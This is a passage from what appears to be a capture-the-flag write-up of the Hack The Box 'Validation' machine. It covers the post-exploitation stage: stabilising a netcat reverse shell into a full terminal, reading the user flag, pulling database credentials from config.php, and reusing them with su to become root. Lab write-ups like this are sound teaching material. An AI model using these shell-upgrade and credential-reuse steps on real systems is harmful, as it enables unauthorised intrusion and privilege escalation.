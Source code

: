 
And upgrade the shell using the `script` trick:

    
    
    www-data@validation:/var/www/html$ script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@validation:/var/www/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@validation:/var/www/html$ 
    

In `/home/htb` I have access to `user.txt`:

    
    
    www-data@validation:/home/htb$ cat user.txt
    153f78a4************************
    

## Shell as root

### Enumeration

There’s not much on the box, but there is one file I couldn’t access before
worth checking out in `/var/www/html`, `config.php`:

    
    
    <?php
      $servername = "127.0.0.1";
      $username = "uhc";
      $password = "uhc-9qual-global-pw";
      $dbname = "registration";
    
      $conn = new mysqli($servername, $username, $password, $dbname);
    ?>
    

### su

Any time I get creds like this, it’s worth checking them for other users. In
this case, they work for root:

    
    
    www-data@validation:/var/www/html$ su -
    Password: 
    root@validation:~#
    

And I can grab `root.txt`:

    
    
    root@validation:~# cat root.txt
    139b1cf7************************
    